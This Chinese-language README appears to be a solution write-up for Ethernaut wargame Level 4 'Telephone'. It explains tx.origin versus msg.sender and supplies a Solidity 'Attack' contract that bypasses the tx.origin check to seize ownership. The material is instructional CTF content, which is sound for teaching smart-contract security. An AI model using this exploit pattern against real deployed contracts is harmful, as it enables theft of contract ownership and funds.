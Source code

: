 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/4-telephone.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 4 - Telephone</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 4 - Telephone](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

需要拿到合约的所有权
<img src="../imgs/requirements/4-telephone-requirements.webp" width="800px"/>

## 漏洞

本关卡就是为了理解 `msg.sender` 和 `tx.origin`的不同之处；`Telephone`合约和容易受到攻击，就是因为它使用了 `tx.origin` 检测，谁发送了交易。

- `tx.origin` 是交易的最原始的发起者，就是签署这笔交易的账户；它只能是账户（EOA）。
- `msg.sender` 是指直接调用智能合约功能的帐户或智能合约的地址，因此，如果在一笔交易中有多个调用，那么 `msg.Sender` 将始终是发起最近一次调用的地址，它的值将随着每次新调用而更改。

- **直接调用 (EOA to Contract)**

  - `EOA => Contract` | `tx.origin === msg.sender === EOA`

- **间接调用 (EOA through Contract1 to Contract2)**
  - `EOA => Contract1 => Contract2`
    - For `Contract1`: `tx.origin === msg.sender === EOA`
    - For `Contract2`: `tx.origin === EOA`, `msg.sender === Contract1`

所以要通过此关，我们只需要部署一个合约就可以绕过 `tx.origin != msg.sender`。`tx.origin` 是我们的EOA, `msg.sender` 是我们新部署的合约地址。

## 解答

写一个合约，通过合约去调用 `Telephone` 合约的 `changeOwner`函数，就可以修改 `owner` 了。

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Attack {
    Telephone instance;

    constructor(address fb) {
        instance = Telephone(fb);
    }

    function attack() public {
        instance.changeOwner(msg.sender);
    }
}
```

## 要点

- 使用 `tx.origin` 要特别小心，确认你知道他是谁;
- 如果你希望调用者是一个EOA，你可能需要 `tx.origin` 


<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
